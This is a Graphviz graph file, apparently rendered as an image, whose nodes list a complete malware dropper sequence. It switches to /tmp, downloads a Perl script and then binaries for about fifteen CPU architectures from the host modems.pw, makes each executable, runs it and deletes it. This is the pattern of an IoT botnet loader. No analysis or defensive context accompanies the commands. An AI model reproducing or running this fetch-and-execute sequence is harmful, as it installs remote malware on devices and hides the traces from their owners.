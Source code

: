 digraph {
0 [label="cd /tmp "];
0 -> 0
2 [label="curl http://modems.pw/a.pl -o a.pl "];
2 -> 2
4 [label="perl a.pl "];
4 -> 4
6 [label="rm -rf a.pl "];
6 -> 6
8 [label="curl http://modems.pw/64 -o 64 "];
8 -> 8
10 [label="chmod 755 64 "];
10 -> 10
12 [label="./64 "];
12 -> 12
14 [label="rm -rf 64 "];
14 -> 14
16 [label="curl http://modems.pw/32 -o 32 "];
16 -> 16
18 [label="chmod 755 32 "];
18 -> 18
20 [label="./32 "];
20 -> 20
22 [label="rm -rf 32 "];
22 -> 22
24 [label="curl http://modems.pw/armv5l -o armv5l "];
24 -> 24
26 [label="chmod 755 armv5l "];
26 -> 26
28 [label="./armv5l "];
28 -> 28
30 [label="rm -rf armv5l "];
30 -> 30
32 [label="curl http://modems.pw/armv4l -o armv4l "];
32 -> 32
34 [label="chmod 755 armv4l "];
34 -> 34
36 [label="./armv4l "];
36 -> 36
38 [label="rm -rf armv4l "];
38 -> 38
40 [label="curl http://modems.pw/mips -o mips "];
40 -> 40
42 [label="chmod 755 mips "];
42 -> 42
44 [label="./mips "];
44 -> 44
46 [label="rm -rf mips "];
46 -> 46
48 [label="curl http://modems.pw/mipsel -o mipsel "];
48 -> 48
50 [label="chmod 755 mipsel "];
50 -> 50
52 [label="./mipsel "];
52 -> 52
54 [label="rm -rf mipsel "];
54 -> 54
56 [label="curl http://modems.pw/sh4 -o sh4 "];
56 -> 56
58 [label="chmod 755 sh4 "];
58 -> 58
60 [label="./sh4 "];
60 -> 60
62 [label="rm -rf sh4 "];
62 -> 62
64 [label="curl http://modems.pw/sparc -o sparc "];
64 -> 64
66 [label="chmod 755 sparc "];
66 -> 66
68 [label="./sparc "];
68 -> 68
70 [label="rm -rf sparc "];
70 -> 70
72 [label="curl http://modems.pw/i586 -o i586 "];
72 -> 72
74 [label="chmod 755 i586 "];
74 -> 74
76 [label="./i586 "];
76 -> 76
78 [label="rm -rf i586 "];
78 -> 78
80 [label="curl http://modems.pw/i686 -o i686 "];
80 -> 80
82 [label="chmod 755 i686 "];
82 -> 82
84 [label="./i686 "];
84 -> 84
86 [label="rm -rf i686 "];
86 -> 86
88 [label="curl http://modems.pw/m68k -o m68k "];
88 -> 88
90 [label="chmod 755 m68k "];
90 -> 90
92 [label="./m68k "];
92 -> 92
94 [label="rm -rf m68k "];
94 -> 94
96 [label="curl http://modems.pw/powerpc -o powerpc "];
96 -> 96
98 [label="chmod 755 powerpc "];
98 -> 98
100 [label="./powerpc "];
100 -> 100
102 [label="rm -rf powerpc "];
102 -> 102
104 [label="curl http://modems.pw/powerpc440fp -o powerpc440fp "];
104 -> 104
106 [label="chmod 755 powerpc440fp "];
106 -> 106
108 [label="./powerpc440fp "];
108 -> 108
}
